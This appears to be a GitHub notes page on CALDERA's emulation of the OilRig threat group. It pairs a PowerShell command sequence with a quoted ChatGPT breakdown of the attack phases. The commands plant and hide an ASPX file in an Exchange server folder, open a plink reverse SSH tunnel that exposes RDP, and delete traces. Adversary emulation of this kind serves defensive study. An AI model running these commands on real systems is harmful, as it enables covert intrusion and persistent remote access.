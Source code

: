 ```powershell
copy C:\Users\Public\contact.aspx "\\#{second.target.ip}\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\"
attrib +h "\\#{second.target.ip}\C$\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews\contact.aspx"
copy  C:\Users\#{initial.target.user}\AppData\Local\SystemFailureReporter\plink.exe C:\Users\Public\Downloads\plink.exe
exec-background C:\Users\Public\Downloads\plink.exe -no-antispoof -ssh -N -R #{caldera.server.ip}:13389:#{second.target.ip}:3389 -l #{caldera.user.name} -pw "#{caldera.user.password}" #{caldera.server.ip}
del C:\Users\gosta\AppData\Roaming\fsociety.dat C:\Users\Public\Downloads\plink.exe;
curl -s -H "KEY:#{server.api.key}" -H "Content-Type: application/json" -X PATCH http://#{caldera.server.ip}:8888/api/v2/agents/#{paw} -d "{\"watchdog\":1}"

```

## What does ChatGPT think about this sequence of commands:

- The current questioning is at [Chatgpt instance](https://chatgpt.com/share/6732f739-b860-8002-8a2e-04ebbc14cf72)

  Prompt: 

  `The following is a sequence of commands corresponding the sequence of ability execution for the adversary oilrig in caldera plugin emu. I need you to analyze this sequence, and to contrast it with your knowledge, and explain to me what the adversary tries to achive.
`

  Answer:

  `This **sequence of commands for the OilRig adversary** in the CALDERA Emu plugin outlines a structured, multi-stage attack, mimicking the behavior of advanced persistent threats (APTs). The commands follow a methodical progression through the stages of a typical **kill chain**, focusing on **information gathering**, **credential access**, **persistence**, **exfiltration**, **defense evasion**, and **command-and-control (C2)**. Here’s an analysis of each step and the adversary’s objectives.

  **Analysis of Attack Phases and Objectives**

  **1. Discovery Phase (Commands for Reconnaissance on the Host and Network)**
  
  The attacker begins by collecting critical information about the environment to understand the target’s layout, users, and network configuration. This reconnaissance phase is essential for planning subsequent steps.

  - **System and User Information**:

    * `cscript /nologo computername.vbs`, `hostname`, `systeminfo`: Collect the **computer’s name**, **hostname**, and **system information** (`T1082`).
    * `cscript /nologo username.vbs`, `whoami`, `net user`: Identify **current and available users** on the system and within the local network (`T1033`, `T1087`.001).
  
  - **Network Information**:

    - `ipconfig /all`: Retrieves network configuration, showing IP addresses, DNS, and network adapter details (`T1016`).
    - `nslookup #{second.target.host}`: Resolves domain names to IPs, useful for identifying internal and external hosts (`T1018`).
    - `netstat -na`: Lists active network connections, giving insight into **accessible services** and open ports (`T1049`).
